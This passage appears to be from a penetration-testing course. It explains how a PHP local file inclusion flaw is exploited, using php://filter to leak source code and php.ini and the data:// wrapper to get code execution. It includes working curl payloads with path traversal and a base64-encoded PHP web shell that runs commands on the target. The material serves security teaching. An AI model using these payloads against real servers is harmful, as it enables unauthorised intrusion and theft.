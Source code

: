 Even after reading the sources of any identified files, we can scan them for other referenced PHP files, and then read those as well, until we are able to capture most of the web application's source or have an accurate image of what it does. It is also possible to start by reading index.php and scanning it for more references and so on, but fuzzing for PHP files may reveal some files that may not otherwise be found that way.

#### Source Code Disclosure
Once we have a list of potential PHP files we want to read, we can start disclosing their sources with the base64 PHP filter. Let's try to read the source code of config.php using the base64 filter, by specifying convert.base64-encode for the read parameter and config for the resource parameter, as follows:
```
php://filter/read=convert.base64-encode/resource=config
```

### Data
The data wrapper can be used to include external data, including PHP code. However, the data wrapper is only available to use if the (allow_url_include) setting is enabled in the PHP configurations. So, let's first confirm whether this setting is enabled, by reading the PHP configuration file through the LFI vulnerability.

#### Checking PHP Configurations
To do so, we can include the PHP configuration file found at (/etc/php/X.Y/apache2/php.ini) for Apache or at (/etc/php/X.Y/fpm/php.ini) for Nginx, where X.Y is your install PHP version. We can start with the latest PHP version, and try earlier versions if we couldn't locate the configuration file. We will also use the base64 filter we used in the previous section, as .ini files are similar to .php files and should be encoded to avoid breaking. Finally, we'll use cURL or Burp instead of a browser, as the output string could be very long and we should be able to properly capture it.
```bash
$ curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
```

Once we have the base64 encoded string, we can decode it and grep for allow_url_include to see its value:
```bash
$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include
```

#### Remote Code Execution
With allow_url_include enabled, we can proceed with our data wrapper attack. As mentioned earlier, the data wrapper can be used to include external data, including PHP code. We can also pass it base64 encoded strings with text/plain;base64, and it has the ability to decode them and execute the PHP code.

So, our first step would be to base64 encode a basic PHP web shell, as follows:
```bash
$ echo '<?php system($_GET["cmd"]); ?>' | base64
PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
```

Now, we can URL encode the base64 string, and then pass it to the data wrapper with data://text/plain;base64,. Finally, we can use pass commands to the web shell with &cmd=<COMMAND>:
```bash
$ curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
```
